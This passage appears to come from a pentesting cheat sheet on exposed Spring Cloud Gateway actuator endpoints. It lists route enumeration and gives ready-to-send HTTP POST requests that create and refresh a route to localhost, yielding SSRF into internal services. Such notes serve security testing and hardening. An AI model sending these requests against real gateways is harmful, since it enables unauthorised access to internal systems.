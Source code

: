 There are at least the following issues:
1. Routes can provide access to hidden or internal endpoints, which can be misconfigured or vulnerable. You can fetch all available routes via `GET`-request to `/actuator/gateway/routes`.
2. Full SSRF if [adding routes](https://cloud.spring.io/spring-cloud-gateway/reference/html/#creating-and-deleting-a-particular-route) do not require administrative permissions. The next request will create a route to localhost:

    ```http
    POST /actuator/gateway/routes/new_route HTTP/1.1
    Content-Type: application/json

    {
    "predicates": [
        {
        "name": "Path",
        "args": {
            "_genkey_0": "/new_route/**"
        }
        }
    ],
    "filters": [
        {
        "name": "RewritePath",
        "args": {
            "_genkey_0": "/new_route(?<path>.*)",
            "_genkey_1": "/${path}"
        }
        }
    ],
    "uri": "https://localhost",
    "order": 0
    }
    ```

    Send refresh request to apply new route:

    ```http
    POST /actuator/gateway/refresh HTTP/1.1
    Content-Type: application/json

    {
        "predicate": "Paths: [/new_route], match trailing slash: true",
        "route_id": "new_route",
        "filters": [
            "[[RewritePath /new_route(?<path>.*) = /${path}], order = 1]"
        ],
        "uri": "https://localhost",
        "order": 0
    }
    ```

References:
- [BRING YOUR OWN SSRF – THE GATEWAY ACTUATOR](https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/)
